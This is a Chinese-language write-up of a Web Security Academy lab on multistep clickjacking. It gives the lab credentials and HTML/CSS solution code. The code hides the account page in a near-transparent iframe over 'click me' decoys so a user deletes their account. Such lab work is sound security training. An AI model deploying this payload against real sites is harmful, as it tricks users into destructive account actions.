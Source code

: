 ```
信息：

1、本实验包含一些受CSRF令牌保护的帐户功能，还包含一个确认对话框，用于防止点击劫持

2、解决实验：设计一个攻击，通过单击“先单击我”和“下一步单击我”诱饵操作，诱骗用户单击删除帐户按钮和确认对话框（需要使用两个元素）

3、已有账号：wiener:peter
```

### 解答

```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
 
我的是：
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:290px;
		left:215px;
	}
</style>
<div class="firstClick">click me first</div>
<div class="secondClick">click me next</div>
<iframe src="https://0a460061032b095d82d560d1008c0023.web-security-academy.net/my-account"></iframe>
```
